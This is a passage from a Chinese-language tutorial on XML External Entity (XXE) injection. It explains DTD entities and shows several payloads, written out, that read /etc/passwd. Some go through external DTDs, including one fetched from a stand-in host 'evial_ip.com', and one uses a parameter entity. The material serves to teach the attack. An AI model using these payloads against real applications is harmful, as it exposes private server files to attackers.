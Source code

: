在这个示例的DTD语句中，定义了一个实体to，并让它的值为LiHua，然后在XML语句中，可以用&to调用这个实体。

这是一个内部实体声明，因为实体的值已经被写在了XML语句中，它其实还支持外部实体声明，具体的实现方式为：

```
#<!ENTITY 实体名称 SYSTEM "URI">
<!ENTITY to SYSTEM "http://example.com/example.dtd">

```

这个功能就是我们今天所讲的XXE的罪魁祸首，攻击者就是通过DTD外部实体声明来实现外部实体注入的。

### XML外部实体注入的产生原因

如果Web应用存在外部实体注入问题，那么攻击者可以构建负载如下：

```
<!DOCTYPE a [
     <!ENTITY b SYSTEM "file:///etc/passwd">
]>
<c>&b;</c>

```

如果页面解析了其中c标签的内容，并将它输出在Web页面上，那么攻击者就可以读取到隐私文件passwd里的内容，这是非常危险的。

当然攻击者也可以利用DTD文档引入外部DTD文档，然后再引入外部实体声明，这样需要的XML内容为：

```
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://evial_ip.com/evil.dtd">
<c>&b;</c>

```

其中外部的evil.dtd文件的内容为：

```
<!ENTITY b SYSTEM "file:///etc/passwd">

```

这样也是可以实现输出隐私文件passwd的功能。除此之外，攻击者还可以通过DTD外部实体声明引入外部实体声明，这有点类似于套娃了，不过它也是一种可行的方式，让我们一起来看看吧。

```
<?xml version="1.0"?>
<!DOCTYPE a [
    <!ENTITY % d SYSTEM "http://example.com/example.dtd">
    %d;
]>
<c>&b;</c>
#example.dtd的内容为
<!ENTITY b SYSTEM "file:///etc/passwd">

```

注意这里的%d，它是一个参数实体。Web应用在解析这个XML文件时，会首先将%d的值设置为example.dtd中的内容，然后调用%d，将example.dtd的运行结果赋予给b，并将它输出到标签中。
